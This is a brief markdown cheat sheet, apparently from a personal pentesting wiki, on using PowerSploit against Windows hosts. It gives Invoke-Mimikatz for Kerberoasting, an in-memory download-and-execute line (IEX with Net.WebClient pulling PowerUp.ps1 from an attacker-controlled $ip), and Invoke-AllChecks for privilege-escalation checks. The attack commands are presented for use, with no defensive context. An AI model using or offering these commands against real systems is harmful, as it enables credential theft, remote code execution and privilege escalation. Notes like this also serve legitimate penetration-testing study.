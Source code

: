 # PowerSploit Helpsheet

For [[Attacking-Kerberos]] with Kerberoasting
```powershell
Invoke-Mimikatz
```

First load into memory unless you have WinRM access and are using [[Evil-winrm-Cheatsheet]]
```powershell
# Obtain powershell reverse shell on then execute powershell 
IEX(New-Object Net.WebClient).downloadString('http://$ip/PowerUp.ps1')
Invoke-AllChecks
```

For individual checks, exploits, hijacks and enumeration see this  page: 
[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)